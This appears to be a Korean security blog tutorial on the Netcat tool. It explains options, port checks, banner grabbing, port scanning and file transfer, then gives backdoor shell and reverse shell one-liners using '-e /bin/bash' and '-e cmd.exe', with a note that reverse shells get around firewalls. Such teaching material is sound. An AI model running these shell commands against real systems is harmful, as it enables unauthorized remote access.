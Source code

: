 ```yaml
---
layout: post
title: "Netcat"
tags: [정보보안, 툴]
comments: true
---
```


Netcat 은 TCP 나 UDP 프로토콜을 사용하는 네트워크 연결에서 데이터를 읽고 쓰는 유틸리티 프로그램임

![image](https://github.com/what0302/what0302.github.io/assets/18510716/8435fd52-6470-4f27-b877-4444db4f6420)

##### 출처 링크: [KOROMOON][KOROMOONlink]
[KOROMOONlink]: https://koromoon.blogspot.com/2018/01/netcat.html "Go KOROMOON"

## (1) 설명

Netcat 은 TCP 나 UDP 프로토콜을 사용하는 네트워크 연결에서 데이터를 읽고 쓰는 유틸리티 프로그램임.<br>
* 일반적으로 UNIX 의 cat 명령어와 비슷한 사용법을 가지고 잇지만 cat 명령어를 통해 파일에 쓰거나 읽듯이 Netcat 툴은 네트워크에 읽거나 쓸 수 있음.<br>
* 이것은 스크립트와 병용하여 네트워크에 대한 디버깅, 테스트 툴로써 매우 편리하고 원하는 포트로 원하는 데이터를 주고 받을 수 있는 특징 때문에 악의적으로 사용할 수 있음.<br><br>
* 또한, 컴퓨터 포렌식에 있어서 라이브 시스템의 데이터를 손상없이 가져오기 위해서도 사용될 수 있음.<br>
* 원하는 거의 모든 종류의 접속 형태를 만들어 낼 수 있고 흥미로운 몇 가지 내장 기능을 가지고 있기 때문에 다기능의 네트워크 문제해결 및 조사 시에 유용하게 사용 가능함.<br><br>

윈도우 다운로드 : [http://eternallybored.org/misc/netcat/](http://eternallybored.org/misc/netcat/)<br>
리눅스 다운로드 : [https://sourceforge.net/projects/nc110/](https://sourceforge.net/projects/nc110/)<br><br>

참고로 SANS 에서 제공하는 Netcat Cheat Sheet 파일은 아래 링크에서 다운받으세요.<br>
[https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)<br><br><br>

## (2) 사용법
![image](https://github.com/what0302/what0302.github.io/assets/18510716/a92595d5-7a73-43ae-b504-346714e82246)
<br>
※ 아래 옵션은 netcat-win32-1.12 버전을 기준으로 정리함.<br><br>

어딘가에 연결 시 : `nc [-options] hostname port[s] [ports] ...`<br>
인바운드 수신 대기 시 : `nc -l -p port [options] [hostname] [port]`<br><br>


옵션 :<br><br>
<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody><tr>
  <td style="border: 1pt solid windowtext; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt; width: 461.2pt;" valign="top" width="615">
  <p align="left" class="MsoNoSpacing"><i><span lang="EN-US"><span style="font-family: courier;">
        -d              콘솔에서 분리되어 백그라운드 모드로 실행<br>
        -e prog         커넥션(Connection)이 이루어졌을 때 후 프로그램을 실행함 (위험!)<br>
        -g gateway      source-routing hop point[s]를 8씩 증가<br>
        -G num          source-routing point를 4, 8, 12 .. 4씩 증가<br>
        -h              도움말<br>
        -i secs         스캔된 포트로 전송된 회선의 지연 간격<br>
        -l              인바운드 커넥션을 위해서 listen 모드로 실행<br>
        -L              소켓 종료 시 재전송 실행<br>
        -n              IP 주소 입력 (DNS 을 사용하지 않음)<br>
        -o file         주고받은 데이터를 헥스 덤프(Hex Dump)하여 파일로 저장함<br>
        -p port         로컬 포트를 지정함<br>
        -r              로컬 이나 원격 포트를 임의로 지정함<br>
        -s addr         로컬 출발지 주소를 지정함<br>
        -t              Telnet 과 같은 협상 과정을 거치도록 설정함<br>
        -c              LF 대신 CRLF 를 보냄<br>
        -u              UDP 모드<br>
        -v              자세한 설명 모드 (더 자세한 정보를 표시하기 위해 두 번 사용)<br>
        -w secs         마지막으로 읽고 난 후 종료할 시간을 정함<br>
        -z              zero-I/O 모드 (스캔 시 사용)<o:p></o:p></span></span></i></p>
  </td>
 </tr>
</tbody></table><br>

참고로 포트 범위는 개별 또는 범위(m-n)일 수 있음.<br><br><br>

## (3) 사용 예
1. 특정 포트에 대한 연결 수립<br><br>
원격 IP 의 특정 포트로 연결하여 Open 되어 있는 여부를 확인함.<br><br>
`nc [IP] [Port]`<br>
<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj26vMovg5synzLGTccviKy3Bh7Fwr9vyJpIEcvNV3O3P_0DR1nvyOh7SbB6BHb0eiqnaYrzV5_Vo75s2gjgF2CPFcuClNe8JDaIMEqh8GzYhAVdkQoOIJ2BwHIjcJMrLlP1UCYigKdAOE/s1600/%25ED%258A%25B9%25EC%25A0%2595+%25ED%258F%25AC%25ED%258A%25B8%25EC%2597%2590+%25EB%258C%2580%25ED%2595%259C+%25EC%2597%25B0%25EA%25B2%25B0+%25EC%2588%2598%25EB%25A6%25BD.png"></div><br><br>

2. 서비스 배너 수집<br><br>
다양한 서비스를 대상으로 그대로 사용할 수 있음.<br>
하지만 HTTP 서비스는 HTTP 헤더 양식을 전송해줘야 함.<br>
`echo -e "HEAD / HTTP/1.0\n\n" | nc [IP] 80`<br>
<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgoaWHzRs5Eysrtj7MwxJwG93oiVnlK0lhMfsw458wNV7xJYfmxaXrF4mYtIJa-S3t6HVqeSGTxlGrjFngRQHSYpugvkM1nkyIBDjfsZwvRPJxWPNmBe3h70eUUK9qlR8mfkzHGiNtpOzQ/s1600/%25EC%2584%259C%25EB%25B9%2584%25EC%258A%25A4+%25EB%25B0%25B0%25EB%2584%2588+%25EC%2588%2598%25EC%25A7%2591.png"></div><br><br>

3. 포트 스캐닝<br><br>
TCP 프로토콜을 사용하여 특정 포트나 포트 범위를 스캔함.<br>
`nc -n -v -z -w 1 [IP] [포트 범위]`<br>
<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh13c9lcWxw5TwLBJpjyNLUm_NZ3zAsQujCfqBInGQ77S6RUAJ5DL5lzdX37VcE_8vbXM0Ux9quTZPYrTjypVuipPBIiaHJcl7cBBkknPy6ikZF1FYbGhW6EZh2m5FDpTQ_PUZ_ut1jwxc/s1600/%25ED%258F%25AC%25ED%258A%25B8+%25EC%258A%25A4%25EC%25BA%2590%25EB%258B%259D.png"></div><br><br>

4. 파일 전송<br><br>
클라이언트(윈도우) -> 서버(Kali Linux)로 파일 전송<br><br>
클라이언트<br>
`nc -w3 [IP] [Port] < [파일명]`<br><br>
서버<br>
`nc -l -p [Port] > [파일명]`<br>
<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhLJghqkvJi7EEYkN5gOMcpHOrLAssBsvMkaFseVbjUZ26uWPYWigxTUkSpL_d-qDlSow1hVAbyeoPkAOwBYLI3MS_Orkt2YY6K1u9fsnUeuI1sjW0aTab7uavss0mjGbiAAaZgcuNqs9Y/s1600/%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B8%2528%25EC%259C%2588%25EB%258F%2584%25EC%259A%25B0%2529-%25EC%2584%259C%25EB%25B2%2584%2528Kali+Linux%2529%25EB%25A1%259C+%25ED%258C%258C%25EC%259D%25BC+%25EC%25A0%2584%25EC%2586%25A1_1.png"></div><br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhesAfNu5IJ2nouAur7moiNTHJ-NOV99AZq0ScVga1EFcziWg7qjVBuvRycwNYQPLW3NHvxT-McO7iDvJXYUtvqK5Xlni5ZMjG3pujhXPey6-JA_GrJOqfUq2rKIVCTI18j1eYIKashfuM/s1600/%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B8%2528%25EC%259C%2588%25EB%258F%2584%25EC%259A%25B0%2529-%25EC%2584%259C%25EB%25B2%2584%2528Kali+Linux%2529%25EB%25A1%259C+%25ED%258C%258C%25EC%259D%25BC+%25EC%25A0%2584%25EC%2586%25A1_2.png"></div><br><br>

5. 백도어 쉘 (Backdoor Shell)<br><br>
Netcat 툴을 이용한 백도어 쉘의 기본 매커니즘은 특정 포트(-p)에서 listen 모드(-l)로 실행하여 연결 수립 시 특정 쉘을 실행(-e)하도록 옵션을 지정하는 방식임.<br><br>

리눅스 환경(서버)에서 백도어 쉘<br>
`nc -l -p [로컬 포트] -e /bin/bash`<br><br>

윈도우 환경(서버)에서 백도어 쉘<br>
`nc -l -p [로컬 포트] -e cmd.exe`<br>
<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhBdx0Kzn5FlS4vy-O59_HtqxLVa1amIMhFdxbKwmRBLxk_HUM-LPMLg6asSVyahZohOVEMXvrNGzvjSY0osxM9mJOwuSfXV2Ck_u8AcP4XqCydi61KwSpbA8CAyPt8xx7_e_7x1OHXt0U/s1600/Backdoor+Shell+%25EC%2584%259C%25EB%25B2%2584.png"></div><br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhSZei4HxKQGGb3QYa8gsdrbxiTfBQp15VwdjTCm0jfB2U2xEm3E70xUFhmq4tmR4BclG12RoUtChqnRztb-o6iqerwGEVeFL99ZTZoB9R2Mvbs1z4xA2pDatgcHElAgdSsbyafrpimIRw/s1600/Backdoor+Shell+%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B81.png"></div><br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhJ9VfZoyrHFHhQ4ldYU6bQfgrH8yPhikT1dCuZSx_Oi9giWq-mohcOVc_WjqC46L_vlEJO_ikY1NLBYquwb9pR1E1zNDUAmJsumn9Q_8wa71aRwDqaYxLCpv3FfFCSAjVnDblt6_c-Dt8/s1600/Backdoor+Shell+%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B82.png"></div><br>
위 스샷에서 서버(Kali Linux) 측 쉘에 접속 후 명령어 뒤에 세미콜론 문자(;)를 덧붙여야 함.<br>
(사용하는 클라이언트 마다 다를 수 있음)<br><br>

6. 리버스 쉘 (Reverse Shell)<br><br>

**Netcat 툴을 이용한 백도어 쉘의 기본 매커니즘은 백도어 쉘과는 반대로 보통 서버 앞단에 방화벽을 우회하기 위해서 리버스 쉘을 이용함.**<br>
**방화벽에서 허용된 나가는 포트를 이용하여 클라이언트 측에서 쉘을 실행시킨 후 서버 측에서 접속함.**<br><br>

리눅스 환경(서버)에서 리버스 쉘<br>
`nc [자신의 IP 주소] [포트] -e /bin/bash`<br><br>

윈도우 환경(서버)에서 리버스 쉘<br>
`nc -l -p [로컬 포트] -e cmd.exe`<br>
`nc [자신의 IP 주소] [포트] -e cmd.exe`<br>
<br>

<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjQWHXV2Sba-_p1a2eB8zqbCVgQqAaJ-aakB2RXHV05B8I5LH3zkcIdkmRvxFy9QyqSSzzSo51nKxzc_Y1Yiv1OCaR6kd6H-8zVXYHyACv0Bwx7TSVirNYVyC6tbfCSndhpXyRI8ys7-3M/s1600/Reverse+Shell+%25EC%2584%259C%25EB%25B2%2584.png"></div><br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgILlZyiTOyqIOo5Gchyphenhyphen5sn1Ypk0XQImvPwJXuZrrCA_Kt0TiyL3tUHnGclcnSH5-Un9W5DhwrzuIr-H6k6lnpD-PmHOP80Y6bl4sny7yyx6yEUxVGKL5elIWNmSDI5UqHXT9RSVTLAjn8/s1600/Reverse+Shell+%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B8.png"></div><br>

